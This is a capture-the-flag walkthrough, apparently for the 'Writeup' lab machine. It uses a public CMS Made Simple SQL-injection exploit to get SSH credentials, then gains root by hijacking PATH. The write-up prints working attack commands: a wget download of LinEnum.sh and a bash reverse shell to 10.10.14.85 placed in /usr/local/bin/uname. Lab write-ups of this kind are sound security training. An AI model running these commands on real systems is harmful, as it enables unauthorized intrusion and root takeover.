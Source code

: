 
### Task 1

Submit user flag.

Opening the browser to the IP address of the target it is revealed that the web site uses DDoS protection.

![alt text](image-w-2.png)

Navigating to ``/robots.txt`` we can see that there is a path called ``writeup/``. 

![alt text](image-w-3.png)

The ``writeup/`` path shows the following page:

![alt text](image-w-4.png)

Running ``whatweb`` against the website ``whatweb <target_ip>/writeup -v`` we find the CMS to be ``CMS Made Simple``.

![alt text](image-w-5.png)

We can then try the directories used which can be found at ``http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/``. 

Trying out the path ``admin/`` we get a pop-up to authenticate, default credentials ``username=admin`` and ``password=admin`` did not get us in.

![alt text](image-w-6.png)

Next, other directories are being tried to find the version of the CMS. At ``doc/CHANGELOG.txt`` we found that the version is 2.2.9.1.

![alt text](image-w-7.png)

Using ``searchsploit CMS Made Simple`` we search for exploits and find versions lower than 2.2.10 are vulnerable to SQL Injection.

![alt text](image-w-8.png)

We can then copy the exploit from searchsploitby running ``searchsploit -m php/webapps/46635.py`` and run it by ``python3 46635.py -u http://<target_ip>/writeup/ -c -w rocktou.txt`` where the -c switch is specified to crack the detected password. The script detects the credentials which we can then use for the admin login prompt. This did not work but after trying ssh with the same credentials ``ssh <username>@<target_ip>`` we get in and find the user flag on the home directory of the user by ``cat user.txt``.  

### Task 2

Submit root flag.

To see if we can exploit any vulnerabilities on the target machine we run the script for Linux Enumeration. After getting the bash file on the host machine, we open a server on port 8000, on the directory we downloaded the file to, using the command  
`python3 -m http.server 8000`

On the target machine we run  
`wget http://10.10.14.85:8000/LinEnum.sh -O /tmp/LinEnum.sh`

After running the script, we find the user being on the staff group which allows users to add local modifications to the system (`/usr/local`) without needing root privileges. This means if root runs a script or command, and that command is resolved to your version in `/usr/local/bin`, it will run your code as root.

![alt text](image-w-9.png)  

We run the following to see which services or scripts might be impacted by `/usr/local/bin`:
`grep -r "/usr/local/bin" /etc/profile* /etc/bash.bashrc /etc/pam.d /etc/update-motd.d 2>/dev/null`.
We confirm that `/usr/local/bin` is part of the `PATH` environment and that the update-motd system executes `uname`. Then, we verify that `/etc/update-motd.d/10-uname` indeed runs `uname`, meaning it could execute our payload if replaced:

![alt text](image-w-10.png)

Since `/usr/local/bin` comes first in the `PATH`, we can hijack `uname` with our own reverse shell payload.

We first start a listener on our machine:  
`nc -lvnp 4444`

Then we overwrite `uname` with a malicious script in `/usr/local/bin/uname`:  
`echo -e '#!/bin/bash\n/bin/bash -i >& /dev/tcp/10.10.14.85/4444 0>&1' > /usr/local/bin/uname`  
`chmod +x /usr/local/bin/uname`

Now, when the system runs `uname` during SSH login, it executes our reverse shell and gives us a root shell.

Once the reverse shell connects back, we are root and we can read the root flag. 
`cd /root`  
`cat root.txt`

![alt text](image-w-11.png)  
